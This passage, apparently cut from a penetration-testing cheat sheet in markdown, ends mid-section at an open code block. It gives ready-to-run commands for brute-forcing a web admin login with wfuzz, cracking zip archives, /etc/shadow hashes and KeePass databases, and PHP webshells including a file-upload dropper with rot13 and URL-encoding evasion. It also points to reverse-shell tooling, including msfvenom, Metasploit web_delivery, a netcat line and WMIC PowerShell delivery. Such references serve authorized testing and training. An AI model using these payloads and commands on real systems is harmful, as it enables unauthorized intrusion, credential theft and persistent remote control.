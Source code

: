 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

`fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip `

- /etc/shadow

<pre>
unshadow passwd shadow > passwords
john --wordlist=/usr/share/wordlists/rockyou.txt passwords
</pre>

- keepass 

<pre>
keepass2john /root/Desktop/NewDatabase.kdb > file
john -incremental:alpha -format=keepass file
</pre>


<a name="rce"></a><h2> RCE </h2>

<a name="phprce"></a><h3>PHP RCE</h3>

test: 

```<?php phpinfo(); ?>```

simple shell: 

```<?php system($_GET["c"]); ?>```

```<?php `$_GET["c"]`; ?>```

file upload:

```<?php file_put_contents('/var/www/html/uploads/test.php', '<?php system($_GET["c"]);?>'); ?>```

file upload evasion:  rot13 + urlencode

```<?php $payload="%3C%3Fcuc%20flfgrz%28%24_TRG%5Bp%5D%29%3B%3F%3E"; file_put_contents('/var/www/html/uploads/test8.php', str_rot13(urldecode($payload))); ?>```


<a name="rcewebshell"></a><h3>RCE via webshell</h3>

- All pentest monkey reverse shells: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

- msfvenom x86/linux/shell_reverse_tcp -f elf

- Metasploit `web_delivery` module

- which wget | nc <ip> <port>
 
<a name="rcewmic"></a><h3>RCE via WMIC</h3>

Powershell without powershell:

Generate payload with web_delivery

![powershellless1](https://user-images.githubusercontent.com/7115563/40374533-8da00e10-5de9-11e8-888e-3b1eaccb28b0.png)

Encode Payload

```